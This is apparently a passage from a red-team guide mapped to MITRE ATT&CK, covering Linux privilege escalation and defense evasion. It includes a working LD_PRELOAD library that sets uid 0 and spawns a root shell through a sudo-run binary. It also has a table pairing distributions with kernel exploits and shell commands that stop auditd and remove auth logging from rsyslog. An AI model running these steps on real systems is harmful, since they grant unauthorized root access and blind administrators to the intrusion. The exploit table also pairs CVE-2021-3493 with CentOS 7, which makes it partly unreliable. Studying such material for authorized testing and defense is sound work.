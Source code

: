 **Linux Injector Tools**:
```bash
# Example of LD_PRELOAD injection
cat > inject.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    setuid(0);
    system("/bin/bash -p");
}
EOF

gcc -fPIC -shared -o inject.so inject.c -nostartfiles
sudo LD_PRELOAD=./inject.so /usr/bin/pinger
```

**Specific ATT&CK Mapping**:
- LD_PRELOAD manipulation implements process injection (T1055)
- Shared library injection allows code execution within privileged processes

> **RED TEAM TIP:**
>
> Develop a privilege escalation checklist for different Linux distributions:
>
> | Distribution | Primary Technique | Secondary Technique | Detection Considerations |
> |--------------|-------------------|---------------------|--------------------------|
> | Ubuntu 20.04 | PwnKit (CVE-2021-4034) | Dirty Pipe (Linux 5.8+) | System logs, process creation |
> | CentOS 7 | Overlayfs (CVE-2021-3493) | SUID binary abuse | File access patterns, audit logs |
> | Debian 11 | Kernel exploit | Sudo technique | Process monitoring, command history |
>
> This approach ensures you have multiple escalation options for each target environment.

## Defense Evasion Tools and Techniques

Defense Evasion consists of techniques used to avoid detection by security tools and analysts. This tactic includes methods for hiding artifacts, disabling security controls, and masking malicious activities.

### Disable or Modify Tools (T1562.001)

This involves disabling or modifying security tools to avoid detection.

**Security Tool Manipulation**:
```bash
# Disable auditd temporarily
sudo service auditd stop

# Modify syslog configuration
sudo mv /etc/rsyslog.conf /etc/rsyslog.conf.bak
sudo sh -c 'grep -v "auth\.\*" /etc/rsyslog.conf.bak > /etc/rsyslog.conf'
sudo service rsyslog restart
```
